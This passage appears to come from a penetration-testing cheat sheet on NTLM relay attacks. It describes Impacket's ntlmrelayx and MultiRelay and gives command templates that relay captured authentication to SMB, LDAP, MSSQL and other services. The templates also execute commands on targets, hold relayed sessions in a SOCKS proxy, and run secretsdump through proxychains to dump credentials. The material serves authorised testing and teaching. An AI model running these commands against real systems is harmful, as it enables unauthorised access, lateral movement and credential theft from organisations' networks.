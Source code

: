 By default, `ntlmrelayx` will dump the `SAM` base of the system the
authentication is relayed to. As that functionality may sometimes fail, the
execution of a unitary command could be preferred instead.

`ntlmrelayx` additionally implements the deployment of a `SOCKS` server that
holds all the relayed sessions active and serves them to `SOCKS` clients. When
started with the `-socks` option, `ntlmrelayx` will keep the authenticated
sessions on hold, through protocols specific `KeepAlive` methods, and will
allow `SOCKS` clients to connect to the targeted remote host through the
`SOCKS` server by leveraging an active session. More information on the
implementation can be found on the `Impacket` maintainer's blog:
`https://www.secureauth.com/blog/playing-relayed-credentials`.

`ntlmrelayx` supports relaying `NTLM` authentication through the following
protocols:
  - `SMB` / `SMB2`
  - `LDAP` / `LDAPS`
  - `MSSQL`
  - `IMAP` / `IMAPS`
  - `HTTP` / `HTTPS`
  - `SMTP`

The authentication can be relayed to a specific service (such as
`smb://<TARGET_IP | TARGET_HOSTNAME>`, `ldaps://<TARGET_IP | TARGET_HOSTNAME>`,
etc.) or to all services (`all://<TARGET_IP | TARGET_HOSTNAME>`) of the
targeted system.

```
MultiRelay.py -t <TARGET_IP | TARGET_HOSTNAME> -c '<COMMAND>' -u '<ALL | USERNAME_TO_RELAY>'

# The TARGETS_FILE file should contain a list of target(s) in the form of [<SERVICE | all>://]<TARGET_IP | TARGET_HOSTNAME>, with one target per line.
ntlmrelayx.py [-smb2support] -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -l <DIRECTORY_OUTPUT>
ntlmrelayx.py [-smb2support] -tf <TARGETS_FILE> -l <DIRECTORY_OUTPUT>
ntlmrelayx.py [-smb2support] -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -c <COMMAND>

# SOCKS usage examples

# Starts ntlmrelayx.py in SOCKS proxy mode  
ntlmrelayx.py [-smb2support] -t <TARGET_IP | TARGET_HOSTNAME | TARGET_SERVICE> -socks
ntlmrelayx.py [-smb2support] -tf <TARGETS_FILE> -socks

# Lists the active sessions.
ntlmrelayx> socks
  Protocol  Target          Username                                 Port
  --------  -------------   ------------------------------           ----
  SMB       <IP_SMB_EX>     <DOMAIN | HOSTNAME>/<USERNAME_SMB_EX>    445
  MSSQL     <IP_MSSQL_EX>   <DOMAIN | HOSTNAME>/<USERNAME_MSSQL_EX>  1433
  SMTP      <IP_SMTP_EX>    <DOMAIN | HOSTNAME>/<USERNAME_SMTP_EX>   25
  IMAP      <IP_IMAP_EX>    <DOMAIN | HOSTNAME>/<USERNAME_IMAP_EX>   143

# Proxychains can be used to proxy commands network traffic through ntlmrelayx SOCKS service. Some tools may natively embed SOCKS4 proxy support.
# Configuration and usage of Proxchains.
# Configurationfile: /etc/proxychains.conf
[ProxyList]
socks4 	<LOCAL_HOST_RUNNING_NTLMRELAYX_IP> 1080

# The ntlmrelayx "SOCKS Relay Plugin" will handle the connection and fake the login process in order to tunnel an authenticated connection.
# If a password is required by the tool used, a random password can be provided.

# SMB examples.
proxychains smbclient //<IP_SMB_EX>/<SHARE> -U <DOMAIN>/<USERNAME_SMB_EX>
proxychains secretsdump.py <DOMAIN>/<USERNAME_SMB_EX>@<IP_SMB_EX>
```